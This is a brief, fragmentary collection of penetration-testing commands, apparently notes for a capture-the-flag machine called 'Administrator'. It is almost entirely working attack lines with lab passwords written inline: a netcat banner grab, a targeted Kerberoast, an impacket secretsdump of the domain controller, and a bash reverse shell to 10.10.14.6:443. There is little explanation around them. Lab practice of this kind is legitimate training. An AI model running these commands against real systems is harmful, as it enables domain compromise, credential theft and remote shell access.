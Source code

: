 ```bash
nc -nv <target-ip> <target-port>
```
Try pull service banner with ``nc``



"Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"

python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42

impacket-secretsdump "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"

stty raw -echo ; fg

bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'

openssl s_client -showcerts -connect 10.0.10.10:443